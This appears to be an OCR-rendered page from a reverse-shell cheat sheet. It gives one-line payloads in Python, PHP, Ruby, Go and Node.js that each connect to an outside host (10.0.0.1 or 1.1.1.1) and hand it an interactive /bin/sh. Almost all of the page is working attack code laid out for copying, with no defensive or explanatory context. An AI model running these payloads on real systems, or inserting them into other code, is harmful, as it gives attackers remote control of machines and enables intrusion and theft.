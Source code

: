 ```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### php

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### Golang

```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### lambda Node.js

```js
vim shell.js

(function(){
    var net=require("net"),
    cp = require("child_process"),
    sh =  cp.spawn("/bin/sh",[]);
    var client = new net.Socket();
    client.connect(8888,"1.1.1.1",function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```
```bash
node shell.js
```

